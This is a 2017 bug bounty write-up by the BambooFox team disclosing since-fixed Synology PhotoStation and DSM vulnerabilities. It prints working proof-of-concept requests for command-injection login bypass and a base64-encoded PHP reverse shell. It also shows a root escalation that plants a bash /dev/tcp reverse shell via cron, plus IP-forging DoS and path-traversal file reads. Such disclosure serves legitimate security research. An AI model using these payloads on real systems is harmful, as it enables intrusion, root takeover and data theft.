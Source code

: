 ```yaml
---
title: '[Synology Bug Bounty 2016]'
author: BambooFox
tags:
  - web
  - 'Synology Bug Bounty '
  - bug bounty
  - DoS
  - LFI
  - command injection
categories:
  - write-ups
  - bug-bounty-report
date: 2017-03-20 07:28:00
---
```

Synology Bug Bounty Report
=============

> Author: BambooFox Team 
> ( Henry, jpeanut, ding, leepupu, Angelboy, boik, adr, Mango King, Bletchley )

Last year ( 2016 ) , we BambooFox were invited to join the Synology Bug Bounty program. After about 2 months of hacking, we discovered several vulnerabilities, including a **remote root code execution** vulnerability. Synology engineers response and fix the vulnerabilities in a very sort time, which shows they pay a lot of attention to security issues.

And now ( in 2017 ) , we are allowed to publish the vulnerabilities:  
* [Vul-01 PhotoStation Login without password](#Vul-01-PhotoStation-Login-without-password )
* [Vul-02 PhotoStation Remote Code Execution](#Vul-02-PhotoStation-Remote-Code-Execution)
* [Vul-03 Read-Write Arbitrary Files](#Vul-03-Read-Write-Arbitrary-Files)
* [Vul-04 Privilege Escalation](#Vul-04-Privilege-Escalation)
* [Vul-05 DoS via Blocking IP](#Vul-05-DoS-via-Blocking-IP)
* [Vul-06 Local File Inclusion](#Vul-06-Local-File-Inclusion)

## Vul-01: PhotoStation Login without password
---
We mostly focus on **PhotoStation**, which is the picture management system enabled in most Synology DSM ( DiskStation Manager ).

The first vulnerability allowed us to **login as admin without entering the password.**

PoC1:
```
GET //photo/login.php?usr=admin&sid=xxx&SynoToken=/bin/true HTTP/1.1
Host: bamboofox.hopto.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept:    text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: |
Cookie: stay_login=0; language=en; PHPSESSID=ime6mqrg0pghbjo4p9aomqcbv0; left-panel-visibility=show
Connection: close
```

The key points are the `|` character in the `X-Forwarded-For` field and `/bin/true` in the get parameter `SynoToken`. The server site CGI will concatenate the strings in `usr`, `X-Forwarded-For` and `SynoToken` into a command and execute the command, and the special characters `|` and `>` aren't filtered out correctly, which will lead to the **command injection** vulnerability. 

Therefore in our PoC1, the command will become:
```
/usr/syno/bin/synophoto_dsm_user username | /bin/true
```

The command will return 0 (True) and thus bypass the authentication.

**Result:
Adversary can login as admin without password**

![Login without password](http://i.imgur.com/pnIWZ6t.png)

Adversary can also login as admin by the following PoC:

```
GET /photo/photo_login.php
action=login&username=admin&password=%26
```

The source code that handle the user authentication are in `photo_login.php`:

```php
$retval = csSYNOPhotoMisc::ExecCmd('/usr/syno/bin/synophoto_dsm_user', array('--auth', $user, $pass), false, $result);
```

Once the `$pass` variable is `&`, the command will be executed in the background and always return 0 (true), thus the adversary can login as admin.


## Vul-02: PhotoStation Remote Code Execution
---
After we successfully login as admin via the command injection vulnerability, we extended the attack surface to attempt remote code execution.

PoC2: 
1 . Encode the command into base64 format
```
base64encode( $sock=fsockopen("......",8080);exec("/bin/sh -i <&3 >&3 2>&3"); )
=> JHNvY2s9ZnNvY2tvcGVuKCIzNi4yMzEuNjguMjE1Iiw4MDgwKTtleGVjKCIvYmluL3NoIC1pIDwmMyA+JjMgMj4mMyIpOw==
```

2 . Send the payload
```
GET //photo/login.php?usr=|&sid=php&SynoToken=eval%28base64_decode%28%22JHNvY2s9ZnNvY2tvcGVuKCIzNi4yMzEuNjguMjE1Iiw4MDgwKTtleGVjKCIvYmluL3NoIC1pIDwmMyA%2bJjMgMj4mMyIpOw%3D%3D%22%29%29%3B HTTP/1.1
Host: bamboofox.hopto.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: -r
Cookie: stay_login=0; language=en; PHPSESSID=ime6mqrg0pghbjo4p9aomqcbv0; left-panel-visibility=show
Connection: close
```

We adopted a similar approach (PoC1) in order to achieve RCE.

We then took a deep look into the source code of PhotoStation, and found the following code:
```php
if ($x_forward) {
    $ip = $x_forward;
}
// ...
$retval = csSYNOPhotoMisc::ExecCmd('/usr/syno/bin/synophoto_dsm_user', array('--current', $user, $session_id, $ip, $synotoken), false, $isValidUser);

if ($retval === 0) {
    $login_status = true;
} else {
    // login failed
}
```

In this code snippet, `$user`, `$ip` and `$synotoken` can be easily controlled by crafting the HTTP headers, and that's the original cause of the command injection vulnerability.  
Our first few attempts failed due to the site filtered out some special characters. However, we noticed that the site did not filtered out all the special characters. Here's the code that indicated the non-filtered characters:
```php
static $skipEscape = array('>', '<', '|', '&');
```

As a result of the code above, `>`, `<`, `|` and `&` can be used to achieve command injection.

![Remote Code Execution](http://i.imgur.com/qJxpKq8.png)

## Vul-03: Read-Write Arbitrary Files
---
After we got the shell, we continued to find security flaws in the DSM. The binary program `synophoto_dsm_user` got our attention. This binary is a **setuid program**, and has a powerful copy function.  
With the `--copy root` parameter, it will do the `cp` command and **copy a file with the root permission**. This make us have the ability to read/write an arbitrary file .

## Vul-04: Privilege Escalation
---
With the previous Vul-02 ( RCE ) and Vul-03 ( Read-Write Arbitrary Files ), we can exploit the vulnerability and **escalate our privilege to root**. We first tried modify the `/etc/crontab` file, but failed due to the [AppArmor](https://en.wikipedia.org/wiki/AppArmor) protection. So we change our target to the file that will be invoked by crontab. Finally we found `/tmp/synoschedtask`, a task which will be invoked by crontab as root. We use `synophoto_dsm_user` to modify its file content to the following command:
```
/volume1/photo/bash -c '/volume1/photo/bash -i >& /dev/tcp/x.x.x.x/yyyyy 0>&1'
```

Now we can wait for our reverse shell, with the root permission.
![Remote Code Execution](http://i.imgur.com/5YrQU54.jpg)


Also by exploiting Vul-02 and Vul-03, we're able to login the service as admin. If the admin is logged in, we can use the following command to get the admin's session ID:

```
usr/syno/bin/synophoto_dsm_user --copy root /usr/syno/etc/private/session/current.users /volume1/photo/current.users
```

Although the server side will check the admin's IP address, but the check can be bypassed easily by forging the `X-Forwarded-For` header.

**Login as admin give us the ability to execute command with the root permission**. For example, we can execute our own command as root with the help of **Task Scheduler**. This result in a privilege escalation as well.


## Vul-05: DoS via Blocking IP
---
We also found some other security flaws.
If a user sends too many requests to `forget_passwd.cgi`, the user will be blocked by his IP, which is retrieved from the `X-Forwarded-For` header.
However, `X-Forwarded-For` can be easily forged from the client side, therefore an attacker can block as many users as he wants by forging the `X-Forwarded-For` header, leading a DoS attack.
![Block IP](http://i.imgur.com/aU9IDWm.png)

## Vul-06: Local File Inclusion
---
There's a LFI (Local File Inclusion) vulnerability in `download.php`. The `id` parameter is controllable.  
For example, we can use `../../../../../../var/services/homes/[username]/.gitconfig` to download a user's git config file.

![Local File Inclusion](http://i.imgur.com/ZpL5Tw7.png)  



## Timeline
* 2016/07/25 Report vulnerabilities to Synology
* 2016/09/01 Confirm that all vulnerabilities have already been fixed by Synology
* 2017/03/13 Confirm that we're allowed to publish the bug bounty report
* 2017/03/20 Synology Bug Bounty Report published


## Note
Some of the vulnerabilities have already been discovered by Lucas Leong from Trend Micro ( [link](http://seclists.org/oss-sec/2016/q1/236) )
